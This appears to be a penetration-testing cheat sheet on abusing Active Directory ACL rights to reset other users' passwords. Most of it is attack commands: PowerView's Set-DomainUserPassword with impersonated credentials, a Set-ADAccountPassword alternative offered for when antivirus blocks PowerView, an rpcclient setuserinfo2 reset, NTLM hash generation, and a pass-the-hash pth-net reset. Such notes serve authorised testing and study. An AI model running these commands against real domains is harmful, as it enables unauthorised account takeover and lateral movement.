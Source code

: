 # Change a User's Password Using ACL Permissions

1. **Authenticate as the Controlling User User I have**  
   - **Create a Secure String** for the password of the user with ACL permissions (e.g., `ali`):  
     ```powershell
     $SecPassword = ConvertTo-SecureString '<PASSWORD>' -AsPlainText -Force
     ```  
   - **Create a PSCredential Object** to impersonate the controlling user:  
     ```powershell
     $Cred = New-Object System.Management.Automation.PSCredential('DOMAIN\USERNAME', $SecPassword)
     ```  
     Replace `DOMAIN\USERNAME` (e.g., `corp.com\ali`).

2. **Define the New Password for the Target User**  
   - **Create a Secure String** for the new password (e.g., `P@ssword123`):  
     ```powershell
     $NewPassword = ConvertTo-SecureString '<NEW_PASSWORD>' -AsPlainText -Force
     ```  
---

3. **Reset the Target User's Password**  
   - **Import Required Modules** (e.g., PowerView):  
     ```powershell
     Import-Module .\PowerView.ps1
     ```  
   - **Execute the Password Change (Must be admin shell)**:  
     ```powershell
     Set-DomainUserPassword -Identity <TARGET_USER> -AccountPassword $NewPassword -Credential $Cred -Verbose
     ```  
     Replace `<TARGET_USER>` (e.g., `ahmed`).  
---

Another way to **Reset the Target User's Password** if powerview.ps1 cannot be executed (AV)
Set-ADAccountPassword (ActiveDirectory module)
# Example: Reset a user password to “p@ssw0rd”
``` powershell
Set-ADAccountPassword -Identity 'CN=Elisa Daugherty,OU=Accounts,DC=Fabrikam,DC=com' `
    -Reset -NewPassword (ConvertTo-SecureString -AsPlainText "p@ssw0rd" -Force)
```
# Using rpc from owned user login
```
setuserinfo2 <target-user> 23 'P@ssword2022'
```
# Direct command for rpc
#### Get NTLM for haze1988
```python
python
import hashlib
hashlib.new('md4', 'haze1988'.encode('utf-16le')).digest().hex()
```

```
pth-net rpc password "$TargetUser" -U "$DOMAIN"/"$USER"%"ffffffffffffffffffffffffffffffff":"$NT_HASH" -S "$DC_HOST"
```
